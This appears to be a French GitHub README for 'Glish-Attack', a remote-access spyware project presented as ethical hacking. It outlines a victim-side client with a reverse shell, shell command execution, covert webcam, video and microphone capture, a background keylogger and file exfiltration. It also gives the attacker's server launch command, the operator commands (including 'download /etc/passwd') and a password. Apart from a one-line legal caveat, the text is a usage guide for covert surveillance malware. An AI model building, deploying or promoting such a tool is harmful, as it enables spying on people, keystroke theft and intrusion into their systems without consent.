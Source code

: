 # Glish-Attack (HACKING ETHIQUE)

## Rmq:Prendre le contrôle de la caméra sans autorisation est illégal 

#### Voici le plan du script client (victime) qu’on va créer :
🔁 Fonctions de base
* Connexion reverse shell
* Exécution de commandes shell

- 🎥 Surveillance
- 📸 Capture webcam (photo)
- 🎬 Capture vidéo (10 sec)
- 🎙️ Enregistrement audio (10 sec via micro)
- ⌨️ Espionnage
- ⌨️ Keylogger en fond
- 💾 Exfiltration de fichiers
- 📁 Navigation et lecture de fichiers

#### On va utiliser :

```bash
pip install opencv-python sounddevice scipy pynput
```
* Webcam	`cv2` (OpenCV)
* Microphone	`sounddevice, scipy.io.wavfile`
* Keylogger	`pynput`
* Transfert fichier	`base64, open()`


#### 🔐 Fonctionnalités incluses :
Fonction	Commande côté serveur

* 📸 Webcam (photo)	>> webcam_snap
* 🎥 Vidéo (10s)	>> video_capture
* 🎙️ Audio (10s)	>> record_audio
* ⌨️ Keylogger	>> get_keys
* 📂 Télécharger fichier >> 	download /chemin/fichier
* 📁 Changer de dossier >> 	cd chemin
* ❌ Fermer la connexion >>	exit

#### 🚀 Utilisation côté attaquant (serveur)
1. Lance le serveur :

```bash
python3 server.py
```
2. Attends la connexion du client

Une fois connecté, tape des commandes :

```ruby
>> webcam_snap
>> video_capture
>> record_audio
>> get_keys
>> download /etc/passwd
>> cd /home/user
>> exit
```
password : `Samglish`
